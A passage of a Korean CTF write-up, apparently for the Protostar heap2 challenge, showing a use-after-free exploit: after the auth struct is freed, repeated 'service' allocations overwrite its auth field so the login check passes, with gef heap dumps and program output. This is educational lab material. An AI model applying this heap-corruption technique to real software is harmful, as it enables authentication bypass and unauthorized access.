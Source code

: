 ```
gef)  print *auth
$6 = {
  name = 0x804c818,
  auth = 0x43434343
}
```

```
login
you have logged in already!
[ auth = 0x804c818, service = 0x804c838 ]
```


#### Exploit2 : `use-after-free` exploit

원래 이 문제는 heap exploit 이므로 `user-after-free` exploit 로 푸는 것이 정석이 아닐까 ?

`auth` pointer 가 `alloc` -> `free` 한 이후에도 alloced pointer 값을 clear 하지 않고 계속 참조를 하면서 사용을 하고 있다. `free` 한 이후에 `service` 통하여 alloc 을 계속 하면 `0x804c838` 영역을 write 할 수 있다.

```
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c818, service = (nil) ]
reset
[ auth = 0x804c818, service = (nil) ]
serviceBBBB
[ auth = 0x804c818, service = 0x804c818 ]
serviceCCCC
[ auth = 0x804c818, service = 0x804c828 ]
serviceDDDD
[ auth = 0x804c818, service = 0x804c838 ]

gef)  x/50x 0x804c800
0x804c800:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c810:      0x00000000      0x00000011      0x42424242      0x0000000a
0x804c820:      0x00000000      0x00000011      0x43434343      0x0000000a
0x804c830:      0x00000000      0x00000011      0x44444444      0x0000000a
0x804c840:      0x00000000      0x000007c1      0x00000000      0x00000000
0x804c850:      0x00000000      0x00000000      0x00000000      0x00000000

gef)  print auth
$7 = (struct auth *) 0x804c818
gef)  print *auth
$8 = {
  name = 0x804c818,
  auth = 0x44444444
}
```

```
login
you have logged in already!
[ auth = 0x804c818, service = 0x804c838 ]
```


## Great Explanation

<iframe width="853" height="480" src="https://www.youtube.com/embed/ZHghwsTRyzQ" frameborder="0" allowfullscreen></iframe>
